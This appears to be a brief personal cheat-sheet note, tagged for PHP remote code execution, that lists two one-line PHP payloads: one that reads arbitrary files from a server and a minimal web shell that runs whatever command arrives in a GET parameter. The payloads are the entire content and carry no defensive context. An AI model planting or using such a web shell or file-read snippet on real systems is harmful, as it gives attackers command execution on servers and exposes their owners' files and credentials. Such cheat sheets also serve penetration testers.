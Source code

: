 ```yaml
---
id: php_read_files
aliases: []
tags:
  - php
  - RCE
  - shell
  - web
---
```

### Read arbitrary files from server:
`<?php echo file_get_contents('/path/to/target/file'); ?>`

### Execute a command on server:
`<?php echo system($_GET['command']); ?>`


